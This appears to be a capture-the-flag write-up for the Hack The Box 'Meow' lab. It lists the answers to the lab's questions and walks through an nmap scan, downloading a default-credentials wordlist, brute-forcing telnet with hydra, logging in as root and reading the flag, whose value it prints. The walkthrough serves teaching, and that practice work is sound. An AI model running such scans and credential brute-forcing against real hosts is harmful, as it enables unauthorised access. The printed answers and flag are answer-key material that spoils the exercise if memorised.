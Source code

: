 # Task 1
What does the acronym VM stand for?
`Virtual Machine`

# Task 2
What tool do we use to interact with the operating system inorder to start out VPN connection?
`terminal`

# Task 3
What service do we use to form out VPN Connection?
`openvpn`

# Task 4
What is the abbreviated name for a tunnel interface in the output of your VPN boot-up sequence output?
`tun`

# Task 5
What tool do we use to test our connection to the target?
`ping`

# Task 6
What is the name of the script we use to scan the target's ports?
`nmap`

# Task 7
What service do we identify on running on port 23/tcp during our scans? `telnet`
Lets do a nmap scan using the command `nmap <ip address> -A -sV -oN Meow.nmap`
here we can see the ports that are open after executing our command
```
Nmap scan report for 10.129.208.41
Host is up (0.41s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
we can see that port 23 is running the telnet service

# Task 8
What username ultimately works with the remote management login prompt for the target? `root`

Lets try connecting to telnet service with the command `telnet <ip address>`<br>
we get a output looking like this
![telnet-connection](telnet-connection.png)

* Lets do some username and password enumeration<br>
Before we can brutefoce we need a wordlist here is a wordlist we can use which contains telnet default credentials: https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt we can use wget or curl or anything else to download the wordlist but i decided to use wget here is the command to download the wordlist with wget: `wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt`.

Now let the bruteforce begin!<br>
we can use this command to bruteforce with hydra after downloading the wordlist
`hydra <ip address> telnet -C telnet-betterdefaultpasslist.txt`.
![cracked](cracked.png)

There we can see the username is root

* Lets login
![telnet-login](telnet-login.png)
There we can see we logged in successfully as root without a password!

# Flag
Lets finally get the flag for the system!
After we have logged into the telnet server successfully we can then list the files using the command `ls`
we will see a file called flag.txt we will then read from the file using the command `cat flag.txt` then we will get the flag
![telnet](flag.png)

Here is our flag `b40abdfe23665f766f9c61ecba8a4c19` now the only thing we need to do is wrap or surround the flag with `HTB{flag here}` voila!
